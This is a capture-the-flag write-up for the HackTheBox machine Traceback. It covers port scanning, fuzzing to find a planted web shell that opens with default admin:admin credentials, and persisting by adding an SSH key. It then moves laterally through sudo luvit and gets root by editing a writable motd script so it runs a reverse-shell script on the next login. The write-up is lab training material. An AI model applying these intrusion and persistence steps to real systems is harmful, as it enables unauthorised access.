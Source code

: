 ```yaml
---
Tags: HackTheBox Easy Linux OSINT luvit lua lateral-movement insecure-file-permissions B2R
Alias: Traceback - 10.10.10.181
---
```

# 10.10.10.181 - Traceback [Easy]

![traceback.jpeg](traceback.jpeg)

***

### Improved skills:

- OSINT
- Luvit lateral movement
- motd privilege escalation

### Used tools:

- nmap
- owasp zap
- pspy64
- netcat

***



## Introduction & Foothold

Like for every CTF we made, let's start scanning the box with **nmap**

```bash
$ nmap 10.10.10.181 --top-ports 25 --open -sC -sV -oA nmap/openPorts.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there are only two services exposed: **SSH** (port 22) and the **Apache Web Server** (port 80).

Visiting the site, we discover that the machine **has been owned** and _there is a backdoor_

![[HTB/Machines/Traceback - 10.10.10.181/attachments/1.png]]


 Looking to the source code of the page, a comment comes out. 

![[HTB/Machines/Traceback - 10.10.10.181/attachments/2.png]]

Searching it on google, it reveals to be the description of a repo containing only web-shells. _We can suppose that one of those shells is the one used in this machine_.

Assuming this, lets **create a wordlist using the discovered shells' name** and **fuzz** the web page in order to find the correct one.

![[HTB/Machines/Traceback - 10.10.10.181/attachments/3.png]]

![[HTB/Machines/Traceback - 10.10.10.181/attachments/4.png]]

**Bingo!** `smevk.php` is the web shell used on the box.

![[HTB/Machines/Traceback - 10.10.10.181/attachments/5.png]]

**Credentials** can be found **on the source code on github.** Easily guessable, the combination is `admin:admin`

![[6.png]]

Once inside, we can easily submit commands to the box. 
In order to get a more stable and comfortable shell, **I added my SSH key to the `authorized_keys` file**, obtaining an SSH access as **webadmin**.

![[7.png]]

![[8.png]]

## Lateral Movement to sysadmin

Listing all the files within the webadmin home directory, we discovered the presence of [Luvit](https://luvit.io/), a

> scripting platform just like `node`. This can be used to run lua scripts as standalone servers, clients, or other tools.

Furthermore, **webadmin has the permissions to run luvit as sysadmin** using **sudo**. It becames easy to perform action as sysadmin, like reading files

![[9.png]]
or getting a shell:

![[10.png]]

## Privilege Escalation

Analyzing the processes running on the machine I noticed the **presence of a process owned by the root modifiable by sysadmin**.

```bash
2020/03/15 15:45:01 CMD: UID=106  PID=28288  | sshd: [net]          
2020/03/15 15:45:01 CMD: UID=0    PID=28290  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28289  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2020/03/15 15:45:01 CMD: UID=0    PID=28297  | cut -c -80 
2020/03/15 15:45:01 CMD: UID=0    PID=28296  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28295  | 
2020/03/15 15:45:01 CMD: UID=0    PID=28293  | /bin/sh /etc/update-motd.d/50-motd-news 
2020/03/15 15:45:01 CMD: UID=0    PID=28298  | run-parts --lsbsysinit /etc/update-motd.d 
2020/03/15 15:45:01 CMD: UID=0    PID=28299  | /usr/bin/python3 -Es /usr/bin/lsb_release -cs 
2020/03/15 15:45:01 CMD: UID=0    PID=28301  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28300  | /usr/sbin/CRON -f 
2020/03/15 15:45:01 CMD: UID=0    PID=28305  | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28304  | sleep 30 
2020/03/15 15:45:01 CMD: UID=0    PID=28303  | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28302  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/03/15 15:45:01 CMD: UID=0    PID=28306  | /usr/bin/python3 -Es /usr/bin/lsb_release -ds 
2020/03/15 15:45:01 CMD: UID=0    PID=28307  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:01 CMD: UID=0    PID=28310  | cut -d  -f4 
2020/03/15 15:45:01 CMD: UID=0    PID=28309  | /usr/bin/python3 -Es /usr/bin/lsb_release -sd 
2020/03/15 15:45:01 CMD: UID=0    PID=28308  | /bin/sh /etc/update-motd.d/91-release-upgrade 
2020/03/15 15:45:02 CMD: UID=0    PID=28315  | sshd: sysadmin [priv]
2020/03/15 15:45:02 CMD: UID=1001 PID=28316  | -sh
```

`/etc/update-motd.d/50-motd-news` is called **every time a user logs into the box**, with **root privileges**. However, **this file can be edited from non-root users**. 
Abusing this issue, let's use the reverse shell script used before in order to obtain a reverse shell as root at the next login.

```bash
sysadmin@traceback:~$ nano /etc/update-mot.d/50-motd-news

#!/bin/bash
/bin/bash /tmp/revShell.sh
...
```

![[11.png]]

## Trophy

> Aim for the sky, but move slowly, enjoying every step along the way.
> It is all those little steps that make the journey complete.  
> \- Chanda Kochhar


## License

Author: 0x*bro*
<a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">
<img alt="Creative Commons Licence" style="border-width:0" src="https://i.creativecommons.org/l/by-nc/4.0/88x31.png" /></a>
This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">Creative Commons Attribution-NonCommercial 4.0 International License</a>.